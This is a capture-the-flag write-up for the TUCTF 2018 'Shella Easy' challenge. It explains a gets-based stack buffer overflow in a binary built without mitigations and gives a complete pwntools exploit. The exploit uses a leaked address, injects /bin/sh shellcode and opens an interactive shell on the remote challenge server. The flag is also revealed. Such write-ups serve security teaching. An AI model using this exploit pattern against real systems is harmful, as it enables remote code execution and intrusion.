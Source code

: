 [](ctf=tu-ctf-2018)
[](type=pwn)
[](tags=buffer-overflow)
[](tools=radare2,gdb-peda,pwntools,python)

# Shella Easy

We are given a [binary](../shella-easy) without any exploit mitigations.

```bash
vagrant@amy:~/share/shella_easy$ file shella-easy
shella-easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=38de2077277362023aadd2209673b21577463b66, not stripped
```

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

The program has a call to `gets` and thus is a vanilla stack based buffer overflow. Exploitation allows us to get the flag from the server.

```python
from pwn import *

context(arch='i386', os='linux')
# p = process('./shella')
p = remote('52.15.182.55', 12345)

p.recvuntil("Yeah I'll have a ")
leak = p.recvuntil(' ').strip()
leak = int(leak, 16)

shellcode = asm(shellcraft.i386.sh())
shellcode = shellcode.ljust(64, '\x90')
shellcode += p32(0xdeadbeef)
shellcode += 'a' * 8
shellcode += p32(leak)
p.send(shellcode)
p.interactive()
```

Flag
> TUCTF{1_607_4_fl46_bu7_n0_fr135}
